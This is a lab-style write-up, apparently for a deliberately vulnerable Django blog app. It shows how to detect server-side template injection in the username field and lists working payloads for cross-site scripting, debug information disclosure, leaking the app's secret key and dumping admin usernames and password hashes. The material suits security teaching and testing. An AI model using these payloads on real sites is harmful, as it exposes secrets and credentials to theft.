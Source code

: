 # Server Side Template Injection

Observe the [Setting Page](https://blog-vul.herokuapp.com/setting/), you can see that username is a dynamic content and displayed __Hi, Username__.

![Web page display username](https://user-images.githubusercontent.com/83699106/132437761-05b5e2dc-98e0-4c50-8cb2-7e9e0c9c33b1.png)

## Solution

Register an account.You will be realized that it don't control the username format and this web use Django framwork. So you can register an account with an special username.


### B1. Identify the underlying engine.

Python has some template engine such as Tornaldo, Jinja, Django, ... . Now , sign up an account with username is a formula evaluation. 

`{{ 7 * 7 }}`

But it doesn't work. 
![image](https://user-images.githubusercontent.com/83699106/132441238-1b673cff-9fd0-4fd6-b0c1-d11cb83bec05.png)


Maybe it use Django template because DJT do not allow formula evaluation by default. Trying another payload.

`{% debug %}`

![image](https://user-images.githubusercontent.com/83699106/132442170-d95e57e5-9147-4592-bc53-ef614f8ca80d.png)


__Successfully__, It displayed debug content in username. 

### B2. Exploit

After indentify the template engine that it's using is DJT. We can exploit futher. The impact of this attack in DJT is not serious than other template languages and these are some payload you can use to exploit.

__Cross-site scripting__
```
{{ '<script>alert(3)</script>' }}
{{ '<script>alert(3)</script>' | safe }}

```

__Debug information leak__
```

{% debug %}

```

__Leaking app’s Secret Key__
```
{{ messages.storages.0.signer.key }}

```
__Admin username and password hash leak__
```
{% load log %}{% get_admin_log 10 as log %}{% for e in log %}
{{e.user.get_username}} : {{e.user.password}}{% endfor %}

```

To clear understand about SSTI attack and Ways to exploit Django template above. You can see [here](https://lifars.com/wp-content/uploads/2021/06/Django-Templates-Server-Side-Template-Injection-v1.0.pdf)
           
        

